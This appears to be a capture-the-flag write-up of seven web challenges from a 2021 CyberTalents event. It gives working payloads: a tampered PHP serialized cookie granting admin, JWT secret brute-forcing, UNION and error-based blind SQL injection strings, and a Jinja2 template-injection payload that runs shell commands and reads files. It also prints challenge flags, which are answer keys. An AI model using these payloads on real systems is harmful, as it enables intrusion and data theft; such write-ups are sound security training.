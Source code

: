 ## 2 SEP 2021 | cybertalents


# 1- one click | 25 pts
``` 
-Type of malicious exploit of a website where unauthorized commands are submitted from a user that the web application trusts .
CSRF
```

# 2- where is the flag | 50 pts
```
in page source code :
Can you see the flag
	VGgzRmxhZzFzSDNyM0JyMA%3D%3D
  
it is base64 encoded let's decode it :
echo "VGgzRmxhZzFzSDNyM0JyMA==" | base64 -d
flag :Th3Flag1sH3r3Br0   
```

# 3- catch toka  | 50 pts
![image](https://user-images.githubusercontent.com/67979878/131999513-d567d9fc-d47d-4071-b7ff-e422ae78a903.png)

```
- try to modify request by : X-Forwarded-For: german_ip  but doesn't work 
- then i changed Accept language header to german hence it only talks german xD 
  check :https://www.websitepulse.com/kb/http_accept_language
  so in request : Accept-Language: de
```
![image](https://user-images.githubusercontent.com/67979878/132000126-f6c6f56a-a6e3-4ee7-b785-ebef8da38300.png)

# 4- wanna some biscuits | 50 pts 

![image](https://user-images.githubusercontent.com/67979878/132000336-77588af6-8497-48bc-a1f5-7d04e1443bd5.png)

```
source code doesn't contain any thing helpful however we have a cookie !
```
![image](https://user-images.githubusercontent.com/67979878/132000466-423f1156-2d82-4bd3-9b26-3fba151f4db6.png)


```
looks like insecure deserialization :D , let's modify these values (username, isAdmin)

O:4:"User":2:{s:8:"userName";s:9:"anonymous";s:7:"isAdmin";b:0;}

to

O:4:"User":2:{s:8:"userName";s:5:"admin";s:7:"isAdmin";b:1;}
```
![image](https://user-images.githubusercontent.com/67979878/132000676-4e983b9a-7367-4140-b176-270883a20b94.png)


# 5- Pasta Code | 100 pts

```
when visit it will get restricted port to open hence it runs on port 6000

great link to bypass :https://www.specialagentsqueaky.com/blog-post/r5iwj96j/2012-02-20-how-to-remove-firefoxs-this-address-is-restricted/

```

![image](https://user-images.githubusercontent.com/67979878/132001325-2f804a8d-0f0e-498d-8dae-c436c1f53e7f.png)

```
register and login with your credits you will notice a JWT in request 

eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluMiJ9.xh8kwc0iNg97vgw9JTENTIpvrw_JrPrYyuLbwz0ax6A

let's bruteforce it and get our secret !

```
![image](https://user-images.githubusercontent.com/67979878/132001884-84457cb9-44cb-4dbc-8853-7832afeb32ef.png)
![image](https://user-images.githubusercontent.com/67979878/132001978-746b2d5f-4667-4a9d-a1d4-38e5b71ef086.png)

```
moidfying JWT value will reveal the flag 
```

# 6- Notes | 100 pts

```
can't login or regiseter only can view notes tab and there find some notes and checked them
```
![image](https://user-images.githubusercontent.com/67979878/132009366-7b8b7624-2aac-435c-b8fa-63dc53c3238b.png)

```
when visit any page it take note name and base64 it 
```
![image](https://user-images.githubusercontent.com/67979878/132009583-954852a6-5e22-4fc0-8e64-37ecd479d81c.png)

```
it looks like if there is a hidden parameter at this tempelate and it takes this text and decode it then retrieve data 
[x] let's try inject some XSS , failed
[]  try some sql :D 

junk' UNION SELECT * FROM information_schema.tables-- => base64 it
```
![image](https://user-images.githubusercontent.com/67979878/132010241-57f1572c-5f60-4934-bd66-c19ba4e4ad8e.png)
```
so it is not MySQL let's try sqlite :
junk' UNION SELECT * FROM sqlite_master--
```
![image](https://user-images.githubusercontent.com/67979878/132010405-1d404520-60e3-4bad-b87b-4176e94ddd1c.png)
```
it looks like it is , but need to specify right number of columns 
junk' UNION SELECT tbl_name FROM sqlite_master--

```
![image](https://user-images.githubusercontent.com/67979878/132010547-3b447f89-9943-4249-be68-1472ebd07032.png)

``junk' UNION SELECT flag FROM flags--``

![image](https://user-images.githubusercontent.com/67979878/132010692-e8da36ad-8530-407d-bd64-cfae3a7ec05b.png)

we have half of the flag 
`You made it! FLAG{8f94cf148a9f01a3745e`

we have a note saying : `I like flask and this ginger thing`
ginger ==> jinja
![image](https://user-images.githubusercontent.com/67979878/132011021-9e1ae56e-26ac-485a-9663-04a7bc2608ea.png)

check : https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md

![image](https://user-images.githubusercontent.com/67979878/132011271-2fd73a73-5927-4a7f-93ee-dc7da7d2092e.png)

we have a hint form the author : `The second part of the flag has to do with your reflected input. what input can you reflect on the page?`
- we can only reflect our sql injection :3 so let's try inject SSTI inside SQLi 
`junk' UNION SELECT "{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}
" FROM flags--`
![image](https://user-images.githubusercontent.com/67979878/132011535-bc8ab651-6efd-496a-aa57-5a18c87db04b.png)

`junk' UNION SELECT "{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat flag2.txt').read() }}
" FROM flags--`

![image](https://user-images.githubusercontent.com/67979878/132012186-f691aa0f-281a-43a6-9733-4ced95d0b297.png)

`FLAG{8f94cf148a9f01a3745e12f1fc6f8e419dc0fb08}`

# 7- grocery bot | 200 pts

```
well it was the hardest one xD , when try /price flag ' it returns an error occured so it seems sql but blind :( 

maybe this is not smartest way , i try hard to autmoate this but can't :( 

/price flag' AND (SELECT CASE WHEN (SUBSTR(flag,1,1)='F') THEN 1/0 ELSE 'a' END FROM flags)='a

if returns an error occured so we are on right path , otherwise then characters is not in the flag

```
![image](https://user-images.githubusercontent.com/67979878/132033008-3be4a7da-a676-483e-8312-9915927dc321.png)
![image](https://user-images.githubusercontent.com/67979878/132033122-43e33882-2635-4f50-aa29-5b8e5e874ff9.png)
![image](https://user-images.githubusercontent.com/67979878/132033715-d625bf4f-179c-4196-a918-9a5ec21a6138.png)

after a long time :

`` | FLAG{sql_1nj3c7i0n_c4n_h4pp3n_t0_b0ts_t0o} ``

# done
